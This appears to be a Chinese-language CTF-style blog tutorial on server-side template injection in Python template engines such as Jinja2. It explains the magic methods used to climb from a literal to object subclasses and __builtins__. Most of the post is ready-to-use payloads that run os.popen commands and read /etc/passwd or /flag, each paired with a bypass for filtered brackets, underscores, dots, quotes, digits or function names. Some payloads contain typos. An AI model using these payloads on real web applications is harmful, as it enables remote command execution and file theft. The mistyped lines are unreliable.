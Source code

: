 # SSTI注入篇


# SSTI 漏洞成因

ssti 服务端模板注入成因为：web 应用在使用框架（如 python 的 flask、jinjia2、django；java 的 freemarker、velocity；php 的 thinkphp、smarty 等）时，由于程序员对代码编写的不规范、不严谨造成模板注入漏洞，攻击者通过恶意注入模板代码影响服务器端模板引擎的行为。

# SSTI 中常用魔术方法

- \_\_class\_\_ 返回一个实例所属的类
- \_\_mro\_\_ 查看类继承的所有父类，直到 object
- \_\_subclasses\_\_() 获取一个类的子类，返回的是一个列表
- \_\_bases\_\_ 以元组形式返回一个类直接继承的类
- \_\_init\_\_ 类实例创建之后调用，对当前对象的实例的初始化
- \_\_globals\_\_ 使用方式为**函数名**\.\_\_globals\_\_，返回一个当前空间下能使用的模块、方法和变量的字典
- \_\_getattribute\_\_ 当类被调用时，无条件进入此函数
- \_\_getattr\_\_ 访问对象中不存在的属性时调用
- \_\_dict\_\_ 返回所有属性，包括属性、方法等
- \_\_builtins\_\_ 查看当前所有导入的内建函数

# 攻击思路

- ## 获取基本类

```
dict //返回类中的函数和属性，父类子类互不影响
base //返回类的父类 python3
mro //返回类继承的元组，(寻找父类) python3
init //返回类的初始化方法  
subclasses() //返回类中仍然可用的引用 python3
globals //对包含函数全局变量的字典的引用 python3

对于返回的是类实例的话:
class //返回实例的对象，可以使类实例指向 Class，使用上面的魔术方法
```

```
''.__class__.__mro__[-1]
{}.__class__.__bases__[0]
().__class__.__bases__[0]
[].__class__.__bases__[0]
```

- ## 获取基本类后，继续获取基本类的子类

  ```
  object.subclasses()
  ```

- ## 找\_\_init\_\_类

  ```
  ''.__class__.__mro__[2].__subclasses__()[99].__init__
  ```

- ## 查看其引用\_\_builtins\_\_

  ```
  ''.__class__.__mro__[2].__subclasses__()[138].__init__.__globals__['__builtins__']
  ```

- ## 寻找 keys 中可用函数，使用 keys 中的 file 等函数来实现读取文件的功能

```
''.__class__.__mro[2].subclasses()[138].init.globals['builtins']['file']('/etc/passwd').read()
```

# 常用目标函数

```
file、subprocess.Popen、os.popen、exec、eval
```

# 绕过过滤方法

- ## 过滤中括号

  魔术方法\_\_getitem\_\_可替代中括号

  ```
  当中括号被过滤时，如下将被限制访问:
  {{''.__class__.__base__.__subclasses__()['xx'].['popen']('cat /flag')}}

  可用__getitem__替换中括号[]:
  {{''.__class__.__base__.__subclasses__().__getitem__(13).__getitem__('popen')('cat /flag')}}
  ```

- ## 过滤下划线

  ```
  原 payload 被限制:
  {{ ().__class__.__base__.__subclasses__()[xx].__init__.__globals__['popen']('cat /flag').read() }}

  1.使用 attr()绕过，payload:
  {{ () | attr(request.args.a) | attr(request.args.b) | attr(request.args.c) | attr(request.args.d) | attr(request.args.e)()['popen']('cat /flag') | attr('read')() }}
  同时 get 方法传参?a=__class__&b=__base__&c=__subclasses__&d=__init__&e=__globals__

  2.将下划线进行编码绕过，payload:
  {{ ().['\x5f\x5fclass\x5f\x5f']['\x5f\x5fbase\x5f\x5f']['\x5f\x5fsubclasses\x5f\x5f']()[xx]['\x5f\x5finit\x5f\x5f'].['\x5f\x5fglobals\x5f\x5f']['popen']('cat /flag') }}
  ```

- ## 过滤点

  ```
  原 payload 被限制:
  {{ ().__class__.__base__.subclasses__()[xx].__init__.__globals__['popen']('cat /flag').read() }}

  1.使用 attr()绕过，payload:
  {{ () | attr('__class__') | attr('__base__') | attr('__subclasses__')() | attr('__getitem__')(xx) | attr('__init__') | attr('__globals__') | attr('__getitem__')('popen')('cat /flag') | attr('read')()}}

  2. 使用中括号绕过，payload:
     {{ ()['__class__']['__base__']['__subclasses__']()[xx]['__init__']['__globals__']['popen']('cat /flag')['read']()}}
  ```

- ## 过滤大括号

  使用\{\%\%\}替代\{\{\}\}，payload:

  \{\% print(''.__class__.__base__.__subclasses__()[xx].__init__.__globals__['popen']('cat /flag').read()) \%\}

- ## 过滤引号

  ```
  当'被过滤后以下访问将被限制
  {{ ().__class__.__base__.subclasses__()[xx].__init__.__globals__['popen']('cat /flag').read() }}

  1.通过 request.args 的 get 传参输入引号内的内容，payload：
  {{ ().__class__.__base__.__subclasses__()[xx].__init__.__globals__[request.args.popen](request.args.cmd).read() }}
  同时 get 传参?popen=popen&cmd=cat /flag

  2.通过 request.form 的 post 传参输入引号内的内容，payload：
  {{ ().__class__.__base__.__subclasses__()[117].__init__.__globals__[request.form.popen](request.form.cmd).read() }}
  同时 post 传参?popen=popen&cmd=cat /flag

  3.使用 cookies 传参，如 request.cookies.k1、request.cookies.k2、k1=popen;k2=cat /flag
  ```

- ## 过滤数字


  使用过滤器 length 绕过
  \{\% set a='aaa' | lenth \%\}{{ ().__class__.__base__.__subclasses__()[a]}}


- ## 过滤函数名

  ```
  1.使用拼接绕过，payload:
  {{ ().__class__.__base__.__subclasses__()[xx].__init__.__globals__['pop'+'en']('cat /fl' + 'ag').read() }}
  
  2.16进制编码绕过，payload:
  {{ ().__class__.__base__.__subclasses__()[xx].__init__.__globals__['\x70\x6f\x70\x65\x6e']('cat /flag').read() }}
  
  3.base64编码绕过，payload:
  {{ ().__class__.__base__.__subclasses__()[xx].__init__.__globals__[base64.b64decode('cG9wZW4=').decode()]('cat /fl' + 'ag').read() }}
  ```


---

> 作者: Hinoatari  
> URL: https://hinoatari.github.io/posts/ssti%E6%B3%A8%E5%85%A5%E7%AF%87/  

